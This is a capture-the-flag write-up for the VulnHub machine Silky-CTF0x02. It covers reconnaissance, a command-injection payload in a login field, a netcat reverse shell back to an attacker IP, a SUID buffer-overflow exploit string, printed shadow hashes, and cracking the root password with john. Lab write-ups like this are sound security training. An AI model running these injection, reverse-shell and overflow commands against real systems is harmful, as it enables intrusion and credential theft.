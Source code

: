# Silky-CTF0x02 Writeup  
(available on VulnHub)

###### Author: Anthony Criscione (arc32x)


## Info Gathering

### nmap -p- -T4 -A -v silky
- **Open Ports**
  - 22: OpenSSH 7.4p1
  - 80: Apache httpd 2.4.25

### dirb http://silky
- **Found Directories**
  - http://silky/admin.php (CODE:200|SIZE:3702)
  - http://silky/index.html (CODE:200|SIZE:10701)
  - http://silky/server-status (CODE:403|SIZE:293)

### nikto -h http://silky
- **Found nothing of interest**

### nikto -h "http://silky/admin.php?username=&password="
- OSVDB-44056: /admin.php/sips/sipssys/users/a/admin/user: SIPS v0.2.2 allows user account info (including password) to be retrieved remotely.

### Manual SQLi
- **Found nothing of interest**

### Manual RCE
- **Found RCE in username field (login box or URL)**
- Ex: silky/admin.php?username=pwd; ls; id; uname -a; cat /etc/passwd&password=test123


## Exploitation

### Established nc reverse shell through RCE in username field
  - Attacker: nc -lvp 4444
  - Target: nc 192.168.56.102 4444 -e /bin/sh
  - Better terminal with python: python -c "import pty; pty.spawn('/bin/bash')"


## Privilege Escalation

### sudo -l
- **Found nothing of interest (password required)**

### find / -perm -u=s -type f 2>/dev/null
- **Found suspicious program w/ SUID bit set: /home/silky/cat_shadow**
  - Moved to /home/silky and attempted to run **./cat_shadow**; password required
  - Tried with test password to observe behavior:

    ```bash
    www-data@Silky-CTF0x02:/home/silky$ ./cat_shadow test123
    Trying to cat /etc/shadow
     Permisson denied! 
     0x00000000 != 0x496c5962
    www-data@Silky-CTF0x02:/home/silky$
    ```

### Program w/ SUID Bit Prints Shadow File
- Shadow file contains user passwords. Though a password is required to execute cat_shadow, **0x00000000 != 0x496c5962** suggests memory corruption (buffer overflow, etc.) might be possible to override the password and print the shadow file; while the SUID bit suggests we might be able to use the overflow to get a root shell directly through cat_shadow. Either should result in root access.

### Testing Buffer Overflow

```bash
www-data@Silky-CTF0x02:/home/silky$  
./cat_shadow AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Trying to cat /etc/shadow
 Permisson denied! 
 0x41414141 != 0x496c5962
www-data@Silky-CTF0x02:/home/silky$ ./cat_shadow $(python -c "print 'A'*100")
Trying to cat /etc/shadow
 Permisson denied! 
 0x41414141 != 0x496c5962
```

- **Found Oveflow**
  - Passing a large number of A's in as the password input results in **0x41414141**, which is AAAA (41 is A when converted from hex to ASCII, see ASCII table with *man ascii*).
  - We need to push **0x496c5962** to this location as indicated in the output inequality. To do so, we need to know how big the buffer is (ie. where the overflow occurs), and use this to pad our input string before pushing the expected value.
- **Finding Buffer Size**
  - We can use a random pattern of characters to find the desired offset using Metasploit's *msf-pattern_create* and *msf-pattern_offset*.
    - Attacker: msf-pattern_create -l 100
      - Pattern returned:  
        Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
    - Target:  
      ./cat_shadow Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
      - Target returned: 0x63413163 != 0x496c5962
    - Attacker: msf-pattern_offset -q 63413163
      - Offset returned: Exact match at offset 64
  - So we need to pad our input with 64 characters to overflow the buffer, and then push the expected value into the next location in memory (which is what's being compared to). This can easily be done with python.

### Exploiting Buffer Overflow
- We just need to execute cat_shadow with our exploit string provided as the input password. We know we need to pad the input with 64 A's to overflow the buffer. After that we just need to append the expected hex values. However, due to little-endianness, these values need to be pushed in reverse (maintaining bytes, or hex pairs). Python makes all of this simple:
  - Target: ./cat_shadow $(python -c "print 'A'*64 + '\\x62\\x59\\x6c\\x49'")
- Exploit successful! The target shadow file is printed to the terminal.

> Trying to read /etc/shadow  
> Succes  
> Printing...  
> root:$6$L69RL59x$ONQl06MP37LfjyFBGlQ5TYtdDqEZEe0yIZIuTHASQG/dgH3Te0fJII/Wtdbu0PA3D/RTxJURc.Ses60j0GFyF/:18012:0:99999:7:::  
> daemon:*:18012:0:99999:7:::  
> [redacted]  
> silky:$6$F0T5vQMg$BKnwGPZ17UHvqZLOVFVCUh6CrsZ5Eu8BLT1/uX3h44wtEoDt9qA2dYL04CMUXHw2Km9H.tttNiyaCHwQQ..2T0:18012:0:99999:7:::  
> mysql:!:18012:0:99999:7:::  
> sshd:*:18012:0:99999:7:::  

- We could obtain silky's password if we wanted, but may as well get root.

### Cracking root Password
- Copied shadow file contents to attacker machine for cracking (saved as *silky_shadow*). Also printed and copied contents of */etc/passwd* (saved as *silky_passwd*).
- **unshadow silky_passwd silky_shadow > silky_john**
- **john silky_john --wordlist=/usr/share/wordlists/rockyou.txt**
- After some time, the cracked password is returned:  
  **greygrey	(root)**


## Privilege Escalation
- Finally we can *su root* with password *greygrey*.


## Capturing the Flag
- *cd /root && ls*
- *cat flag.txt*
- Flag obtained: **d1f258a6ec26dffbbdec79f68890a5e8**
